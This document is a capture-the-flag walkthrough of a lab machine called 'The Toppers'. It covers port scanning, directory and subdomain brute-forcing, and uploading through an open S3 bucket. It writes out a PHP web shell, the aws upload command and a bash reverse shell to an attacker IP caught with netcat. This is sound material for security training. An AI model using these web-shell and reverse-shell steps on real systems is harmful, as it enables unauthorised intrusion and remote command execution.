










# Reconnaissance

Let’s start by checking what **TCP Ports** are accessible

```bash
sudo nmap -sS -p- --open --min-rate 5000 10.129.29.182 -vvv -n -Pn -oG allports.txt
```

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now let's apply service version detection to the open ports

```bash
sudo nmap -sVC -p22,80 10.129.29.182 -oN portscan.txt
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, we have two services: **HTTP** and **SSH**

First, let's take a quick look at the HTTP service


# Brute-Force Attack

Unfortunately, we couldn't find anything interesting, so we're going to perform a brute-force attack on directories using **Gobuster**.   (We added the -x flag because the web 
service uses **PHP**)

```bash
gobuster dir -u 10.129.29.182 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 --no-error -x php
```
```bash
/images               (Status: 301) [Size: 315] [--> http://10.129.29.182/images/]
/index.php            (Status: 200) [Size: 11952]
/.php                 (Status: 403) [Size: 278]
```

We still don't have any interesting information **:(**

While looking at the web service, it occurred to me to scan for subdomains, so we'll reuse Gobuster by changing the **dir** flag to **vhost**

But before we use this technique, let's map the IP address to the domain name

```bash
sudo nvim /etc/hosts
```



Now let's continue with the discovery of subdomains

# Subdomain Discovery

```bash
gobuster vhost -u http://thetoppers.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 100 --no-error --append-domain
```


It looks like we've found something interesting this time, we were able to discover two hidden subdomains under the root domain

First, let's take a look at the subdomain s3.thetoppers.htb

But to do this, we need to edit the /etc/hosts file

```bash
sudo nvim /etc/hosts
```





And it looks like a service is running under this subdomain...

But since we have no idea what it might do, we did a quick **Google search**



Thanks to a Google search, we were able to find out **aws s3 bucket** is running in the background

# Interacting with an AWS S3 Bucket

Now let's see how to interact with this service remotely

First of all, we'll install the tool in case we don't already have it 

```bash
sudo apt-get install awscli
```
Now let's set up **awscli**

```bash
aws configure
```



Once it's set up, let's interact with the service

```bash
aws --endpoint=http://s3.thetoppers.htb/ s3 ls s3://thetoppers.htb
```



As we can see, we were able to list the files located under the **root domain**

# Uploading a Malicious PHP File

Now that we know this, we'll create a malicious **PHP** file that allows us to execute commands via the **URL**

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Once it's created, we'll upload it to the web service

```bash
aws --endpoint=http://s3.thetoppers.htb/ s3 cp shell.php s3://thetoppers.htb
```

Now let's verify that the file has been uploaded correctly and that we can run commands on the web service



As we can see, it works correctly, and we are now able to execute commands within the web service

With this in mind, let's now establish a **reverse shell**

# Reverse Shell

```bash
revshell.sh
```

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.6/1234 0>&1
```

Once the reverse shell is created, we'll set up a local HTTP server to host it

```bash
python3 -m http.server 8000
```

Next, we're going to open a listening port through which the shell will connect  **(Keep in mind that it must be the same port that we specified when creating the revshell)**

```bash
nc -nvlp 1234
```

Now all we have to do is use the **curl** utility to access the URL that is the web service and execute the **reverse shell** we're hosting on our **local Python server**





And we got the reverse shell!

Now we can claim our flag **:)**

```bash
cat /var/www/flag.txt
```
